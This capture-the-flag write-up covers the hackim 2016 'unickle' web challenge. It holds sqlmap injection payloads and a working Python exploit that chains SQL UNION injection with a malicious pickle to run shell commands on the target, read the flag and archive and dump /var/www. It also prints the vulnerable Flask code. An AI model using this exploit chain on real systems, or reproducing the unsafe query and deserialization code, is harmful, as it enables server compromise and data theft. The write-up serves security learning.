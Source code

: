 ```yaml
---
layout: post
title:  "hackim 2016: unickle (web 200)"
author: f0rki
categories: writeup
---
```


* **Category:** web
* **Points:** 200
* **Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get
> rid of the hassle of managing your own storage for object with Osaas. Unickle
> currently offers a beta version that demonstrates how OSaaS will make the
> internet a better place... One object at a time!!

## Write-up

So there isn't much to look at here. It displays some values and you can
restrict the displayed values to a category with the `?cat=X` parameter. After
some fiddling and not getting anywhere I decided to let `sqlmap` loose on the
site.

```
$ python2 sqlmap.py --level=5 --risk=3 --method=get -a \
    -u 'http://54.84.124.93/?cat=2' --output-dir=/tmp/unickle/

sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=2 AND 7804=7804

    Type: AND/OR time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: cat=2 AND 9875=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: cat=2 UNION ALL SELECT 'qxvqq'||'HuGRpkqXfbsleivzlVQsmTJGEQszicEaMDqmwMEK'||'qbvzq',NULL,NULL,NULL-- -
---

[...]

Table: db_object
[4 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| tcat_id | INTEGER |
| tid     | INTEGER |
| tname   | VARCHAR |
| tvalue  | VARCHAR |
+---------+---------+
```

sqlmap didn't do so well on dumping the actual tables, probably because there
were some non-printable characters in there. At this point I was kind of
annoyed and switched to another challenge. Fortunately a fellow LosFuzzys
member didn't want to realy on sqlmap and did the injection by hand, which
yielded better results. One can abuse the SQL injection by using `?cat=4 union
select ...` as the parameter. We can get the table schema of the `db_object`
table.  This is the table the objects, which are displayed, are selected from.
Let's look at one row of the database.

```
id | name     | value                                                               | cat_id
--------------------------------------------------------------------------------------------
2  | Object 2 | cvulnerableBoxq)q}qXnameqX        Magic Boxqsb. | 2
```

We can see that value has a very strange format and doesn't quite match what we
see as output. So there is apparently some transformation happeing. It turns
out that this is [pickled](https://docs.python.org/2/library/pickle.html) data.
Of course as we know from countless other CTFs, pickle is evil, as it allows
arbitrary code execution as part of the deserialization. So we can use the SQL
injection to get the application to load our input with pickle, which gives us
code execution on the server :) Kindly enough we also get the deserialized
object as string, so we can use `subprocess.check_output` to get the output of
arbitrary commands. I used the following script to exploit the sqli/pickle
vulnerabilities. I used several shellcodes. First using a simple computation to
prove we have code execution. Then I searched for the flag using the `find`
command and read it out using `cat`. I also dumped the whole `/var/www/`
directory just to be sure ;)


```
from __future__ import print_function

import requests
import sys
import pickle
from urllib import unquote

# test shellcode
#SHELLCODE = "42 + 1"
# fetch the whole webserver dir :)
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"tar czf /tmp/src.tgz /var/www/; cat /tmp/src.tgz | base64\", shell=True))"  # NOQA
# find the flag
#SHELLCODE = "str(__import__(\"subprocess\").check_output(\"find / -name flag\", shell=True))"  # NOQA
# read the flag
SHELLCODE = "str(__import__(\"subprocess\").check_output(\"cat /var/www/flag\", shell=True))"  # NOQA


class Pwn(object):
    def __reduce__(self):
        return (eval, (SHELLCODE,))


pwn = Pwn()
sc = pickle.dumps(pwn)

if len(sys.argv) == 2 and sys.argv[1] == "--try":
    print("Executing shellcode:")
    print("-------")
    try:
        print(pickle.loads(sc))
    except Exception as e:
        print("exception", repr(e))
    print("\n-------")


print("Sending shellcode:")
print("-------")
print(sc)
print("-------")
sc = sc.replace("'", "\"")  # otherwise the sql query doesn't work
sqlipl = "4 union select 1,2,'{}',1337".format(sc)
print("#### sqli payload is")
print(sqlipl)
resp = requests.get("http://54.84.124.93/", params={"cat": sqlipl})
print("#### URL is")
print(resp.url)
print(unquote(resp.url))
print("#### response -", resp.status_code)
#print(resp.text)
# very dirty parsing ;)
print(resp.text.split("\n")[38].replace("\\n", "\n").strip())
```

The flag was `flag{OSaaS_with_union_and_tickle_trend_it_is!}`

The whole thing was a flask application and the vulnerable code is this:

```
@application.route("/", methods=['GET'])
def index():
  sql = "SELECT * FROM db_object"
  if request.args != [] and request.args.get('cat') != None:
    sql = "SELECT * FROM db_object where cat_id="+request.args.get('cat')  # SQL injection here
  result = db.engine.execute(sql)
  objects = []
  for row in result:
    val = row[2]
    if row[2]!= None:
      try:
        print(row[2])
        val = pickle.loads(row[2].encode(encoding='ISO-8859-1'))           # pickle deserialization vulnerability here
      except Exception as e:
        val = e
    objects.append([row[0],row[1],val,row[3]])
  return render_template('index.html', objects=objects)
```
